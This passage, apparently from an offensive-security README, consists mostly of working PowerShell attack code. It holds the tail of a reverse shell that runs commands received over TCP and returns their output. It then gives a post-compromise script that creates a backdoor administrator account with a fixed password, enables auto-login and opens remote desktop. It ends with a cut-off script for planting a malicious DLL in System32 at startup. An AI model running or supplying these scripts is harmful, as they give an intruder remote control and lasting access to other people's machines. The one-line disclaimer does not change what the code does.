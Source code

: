 ```PowerShell
        # Get the network stream object associated with the TCP client object
        $stream = $client.GetStream()
        # Create a byte array to store incoming data
        [byte[]]$bytes = 0..65535|%{0}
        # Read data from the network stream until there is no more data to read
        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
            # Convert the incoming data to a string
            $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
            # Execute the incoming data as a PowerShell command and capture the output
            $sendback = (iex $data 2>&1 | Out-String )
            # Append a PowerShell prompt to the output
            $sendback2 = $sendback + 'PS ' + (pwd).Path + '> '
            # Convert the output to a byte array and write it to the network stream
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()
        }
        # Close the TCP client object
        $client.Close()
    }
}
```
Note that this script checks for open ports on a specified list and if a port is open, it opens a reverse shell back to the attacker's machine. This is just an example and should not be used for malicious purposes.
## WHAT CAN WE DO ONCE WE'RE "IN" ?
### Example PowerShell script that creates a new administrator user, enables auto-login, and enables remote desktop registry:
```PowerShell
# Create new administrator user
$adminUsername = "NewAdminUser"
$adminPassword = ConvertTo-SecureString "P@ssw0rd" -AsPlainText -Force
$adminCredential = New-Object System.Management.Automation.PSCredential ($adminUsername, $adminPassword)
New-LocalUser -Name $adminUsername -Password $adminCredential -FullName "New Admin User" -Description "New administrator user account" -AccountNeverExpires -PasswordNeverExpires

# Add user to local administrators group
Add-LocalGroupMember -Group "Administrators" -Member $adminUsername

# Enable auto-login for new administrator user
$regPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
Set-ItemProperty -Path $regPath -Name "AutoAdminLogon" -Value "1"
Set-ItemProperty -Path $regPath -Name "DefaultUserName" -Value $adminUsername
Set-ItemProperty -Path $regPath -Name "DefaultPassword" -Value $adminPassword

# Enable remote desktop registry
$regPath = "HKLM:\System\CurrentControlSet\Control\Terminal Server"
Set-ItemProperty -Path $regPath -Name "fDenyTSConnections" -Value "0"
Set-ItemProperty -Path $regPath -Name "AllowTSConnections" -Value "1"
```
### Here is an example of a PowerShell script that can be used to replace an existing .dll file on startup:
```PowerShell
# Replace DLL on startup
$sourceFile = "C:\Malicious\malware.dll"
$destinationFile = "C:\Windows\System32\evil.dll"
$backupFile = "C:\Windows\System32\backup.dll"

# Check if backup file exists
```